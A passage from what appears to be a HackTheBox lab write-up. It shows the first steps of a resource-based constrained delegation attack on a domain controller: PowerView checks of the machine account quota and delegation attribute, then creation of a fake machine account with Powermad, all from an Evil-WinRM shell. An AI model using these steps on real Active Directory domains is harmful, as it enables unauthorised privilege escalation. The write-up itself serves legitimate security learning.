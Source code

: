 ![image-20220527151617562](https://0xdfimages.gitlab.io/img/image-20220527151617562.png)

I’ll verify that users can add machines to the domain:

```
*Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10

```

The quote is set to the default of 10, which is good.

I’ll also need to make sure there’s a 2012+ DC in the environment:

```
*Evil-WinRM* PS C:\programdata> Get-DomainController | select name,osversion | fl

Name      : dc.support.htb
OSVersion : Windows Server 2022 Standard

```

2022 Standard is great.

Finally, I’ll want to check that the `msds-allowedtoactonbehalfofotheridentity` is empty:

```
*Evil-WinRM* PS C:\programdata> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl

name                                     : DC
msds-allowedtoactonbehalfofotheridentity :

```

It is.

#### Create FakeComputer

I’ll use the Powermad `New-MachineAccount` to create a fake computer:

```
*Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
[+] Machine account 0xdfFakeComputer added

```

I need the SID of the computer object as well, so I’ll save it in a variable:

```
*Evil-WinRM* PS C:\programdata> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
*Evil-WinRM* PS C:\programdata> $fakesid
S-1-5-21-1677581083-3380853377-188903654-1121

```
